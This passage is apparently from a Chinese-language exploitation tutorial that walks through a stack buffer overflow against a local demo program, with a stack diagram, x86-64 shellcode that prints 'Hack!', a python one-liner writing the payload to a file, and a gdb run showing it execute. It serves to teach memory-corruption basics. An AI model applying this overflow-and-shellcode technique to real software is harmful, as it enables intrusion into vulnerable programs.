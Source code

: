 
以上机器码一共42个字节，`name`到`ret rip`之间一共72个字节，因此还需要补30个字节，最后填上`name`的起始地址`0x7fffffffe100`。`main`函数执行到`ret`命令时，栈上的数据应该是下面这个样子的（注意最后的`name`起始地址需要按小端顺序保存）：

                                            Stack
     name(0x7fffffffe100)--> +---------------------------------+ <---+
                             |  eb 1e           (jmp END)      |     |
                    BEGIN--> +---------------------------------+     |
                             |  b8 01 00 00 00  (mov eax,0x1)  |     |
                             +---------------------------------+     |
                             |  bf 01 00 00 00  (mov edi,0x1)  |     |
                             +---------------------------------+     |
                             |  5e              (pop rsi)      |     |
                             +---------------------------------+     |
                             |  ba 05 00 00 00  (mov edx,0x5)  |     |
                             +---------------------------------+     |
                             |  0f 05           (syscall)      |     |
                             +---------------------------------+     |
                             |  b8 3c 00 00 00  (mov eax,0x3c) |     |
                             +---------------------------------+     |
                             |  bf 00 00 00 00  (mov edi,0x0)  |     |
                             +---------------------------------+     |
                             |  0f 05           (syscall)      |     |
                       END-> +---------------------------------+     |
                             |  e8 dd ff ff ff  (call BEGIN)   |     |
                             +---------------------------------+     |
                             |  48 61 63 6b 21  ("Hack!")      |     |
         (0x7fffffffe12a)--> +---------------------------------+     |
                             |  "\x00"*30                      |     |
      rsp(0x7fffffffe148)--> +---------------------------------+     |
                             |  00 e1 ff ff ff 7f 00 00        | ----+
                             +---------------------------------+

上图中的栈上的所有字节码就是我们需要输入给`scanf`函数的字符串，这个字符串一般称为`shellcode`。由于这段`shellcode`中有很多无法通过键盘输入的字节码，因此用`python`将其打印至文件中：

    python -c 'print "\xeb\x1e\xb8\x01\x00\x00\x00\xbf\x01\x00\x00\x00\x5e\xba\x05\x00\x00\x00\x0f\x05\xb8\x3c\x00\x00\x00\xbf\x00\x00\x00\x00\x0f\x05\xe8\xdd\xff\xff\xff\x48\x61\x63\x6b\x21" + "\x00"*30 + "\x00\xe1\xff\xff\xff\x7f\x00\x00"' > shellcode

现在可以对`victim`进行攻击了，不过目前只能在`gdb`的调试环境下进行攻击。输入`gdb -q ./victim`，再输入`run < shellcode`：

    $ gdb -q ./victim
    Reading symbols from ./victim...done.
    (gdb) run < shellcode
    Starting program: /home/hcj/blog/rop/ch02/victim < shellcode
    What's your name?Hello, ��!
    Hack![Inferior 1 (process 2711) exited normally]
    (gdb) 
